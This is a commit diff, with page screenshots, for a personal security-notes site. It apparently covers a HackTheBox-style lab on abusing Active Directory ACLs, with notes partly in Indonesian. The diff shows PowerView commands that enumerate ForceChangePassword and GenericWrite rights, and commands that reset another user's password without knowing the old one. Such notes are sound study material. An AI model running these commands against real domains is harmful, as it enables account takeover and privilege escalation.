

Before and after one commit to sahabrifki/sahabrifki.github.io, a Jekyll site: the page built from AD/ACL-FcPassword.md, in a window 1280 px wide and 1400 px high, scrolled down 569 px. Shown: the whole window at 89% size, without its empty margins (108-1171 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; our own code applies the rules of GitHub Pages for plain Markdown files; after the commit the page ends 1776 px from its top, so only the background shows below that; some of the changed text lies outside the part shown.

Commit message:
Update and rename ACL.md to ACL-FcPassword.md

````diff
--- a/AD/ACL.md
+++ b/AD/ACL-FcPassword.md
@@ -25,28 +25,15 @@ Some example Active Directory object security permissions are as follows. These
 - Addself:  abused with Add-DomainGroupMember
 ```
 
-## ACL Enumeration With Powerview
+### ACL Enumeration With Powerview
+In this section we use scenarion that:
+1. we have compromise user with username wley
+2. User wley has Force Change Password Object to User damundsen
+3. Login as damundsen, Enumerate this user has Generic Write rights to Help Desk Level 1 Groups
+4. Adding ourself (damundsen) as member of HELP DESK IT LEVEL 1
 
-**Assume we have username wley as compromised user**
+### Enumerate ForceChangePassword Right
 
-### ForceChangePassword
-#### using Get-DomainObjectACL
-
-```python
-Import-Module .\PowerView.ps1
-$sid = Convert-NameToSid wley
-Get-DomainObjectACL -Identity * | ? {$_.SecurityIdentifier -eq $sid}
-
-##Vulnerable Output
-ObjectDN               : CN=Dana Amundsen,OU=DevOps,OU=IT,OU=HQ-NYC,OU=Employees,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL
-ObjectAceType          : 00299570-246d-11d0-a768-00aa006e0529
-
-# ObjectAceType with above value meaning for Force-change-password
-#https://learn.microsoft.com/id-id/windows/win32/adschema/r-user-force-change-password
-```
-
-
-#### Using -ResolveGUIDs Flag
 ```python
 Import-Module .\PowerView.ps1
 $sid = Convert-NameToSid wley
@@ -58,40 +45,26 @@ ActiveDirectoryRights  : ExtendedRight
 ObjectAceType          : User-Force-Change-Password
 ```
 
-#### Enumerate All User
+*Enumerate All Users*
 ```python
 Get-ADUser -Filter * | Select-Object -ExpandProperty SamAccountName > ad_users.txt
 foreach($line in [System.IO.File]::ReadLines("C:\Users\htb-student\Desktop\ad_users.txt")) {get-acl  "AD:\$(Get-ADUser $line)" | Select-Object Path -ExpandProperty Access | Where-Object {$_.IdentityReference -match 'INLANEFREIGHT\\wley'}}
 
 ```
 
-### Abusing Force Change Password
+## Abusing Force Change Password
 **changing wley password without knowing his old password**
 
-1. Store Password user kita ke powershell credential
+First, Store Password user kita ke powershell credential
 
 ```python
    PS C:\htb> $SecPassword = ConvertTo-SecureString '<PASSWORD Kita >' -AsPlainText -Force
    PS C:\htb> $Cred = New-Object System.Management.Automation.PSCredential('INLANEFREIGHT\wley', $SecPassword)
 ```
 
-3. Kemudian create password dari user target (eg disini user damundsen yang bisa kita ganti)
+Then, Kemudian create password dari user target (eg disini user damundsen yang bisa kita ganti)
 ```python
 PS C:\htb> $damundsenPassword = ConvertTo-SecureString 'Pwn3d_by_ACLs!' -AsPlainText -Force
 PS C:\htb> Import-Module .\PowerView.ps1
 PS C:\htb> Set-DomainUserPassword -Identity damundsen -AccountPassword $damundsenPassword -Credential $Cred -Verbose
 ```
-
-#### Generic Write
-
-```python
-# Generic All Enumeration
-$sid2 = Convert-NameToSid damundsen
-Get-DomainObjectACL -ResolveGUIDs -Identity * | ? {$_.SecurityIdentifier -eq $sid2} -Verbose
-
-AceType               : AccessAllowed
-ObjectDN              : CN=Help Desk Level 1,OU=Security Groups,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL
-ActiveDirectoryRights : ListChildren, ReadProperty, GenericWrite
-*Now we can see that our user damundsen has GenericWrite privileges over the Help Desk Level 1 group. and with
-
-```
````
